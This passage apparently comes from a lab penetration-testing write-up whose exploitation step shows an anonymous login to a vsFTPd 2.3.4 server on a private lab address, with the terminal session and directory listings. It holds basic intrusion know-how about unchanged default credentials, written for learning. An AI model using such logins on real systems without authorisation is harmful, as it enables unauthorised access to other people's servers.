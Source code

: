 
## Step 3: Exploitation

Out of all of the possible vulnerabilites, I chose the FTP server because of its simple exploitation and streamlined design. I looked up "FTP Anon" and found that when a user creates an FTP server, they need to change the default credentials. This user however, made the mistake of leaving the credentials, making it vulnerable.

![alt text](ftp.png "FTP")

With this knowledge I now can now perform the exploit.

```
┌─[✗]─[root@parrot]─[/home/user]
└──╼ #ftp 192.168.1.139
Connected to 192.168.1.139.
220 (vsFTPd 2.3.4)
Name (192.168.1.139:user): ftp
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||20411|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> dir
229 Entering Extended Passive Mode (|||9639|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> 
```